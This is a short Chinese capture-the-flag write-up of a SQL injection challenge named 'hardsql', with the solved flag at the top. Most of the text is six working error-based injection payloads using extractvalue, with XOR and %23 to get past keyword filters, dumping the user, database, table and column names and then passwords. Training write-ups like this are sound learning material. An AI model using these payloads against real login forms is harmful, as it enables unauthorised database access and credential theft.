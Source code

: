 ```yaml
---
Author: SuperJason
Date: 2021-1-7
---
```


## flag
`flag{ae8436e4-86fa-4992-8012-700bf91a9e29}`

## 思路

1. 通过BurpSuite跑一下fuzz.txt，union等关键字被过滤，`updatexml、extractvalue、^`还可以使用，猜测为报错注入。
- username=test'^extractvalue(1,concat(0x7e,user(),0x7e))%23&password=12
  ![](../images/hardsql-1.png)
- username=test'^extractvalue(1,concat(0x7e,database(),0x7e))%23&password=12
  ![](../images/hardsql-2.png)
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e))%23&password=12
  ![](../images/hardsql-3.png)
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e))%23&password=12
  ![](../images/hardsql-4.png)
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e))%23&password=12
  ![](../images/hardsql-5.png)
- username=test'^extractvalue(1,concat(0x7e,reverse((select(group_concat(password))from(H4rDsq1))),0x7e))%23&password=12
  ![](../images/hardsql-6.png)

## 总结
报错注入，异或替换and、or，%23替换#(hackbar总结用#有问题，转码)

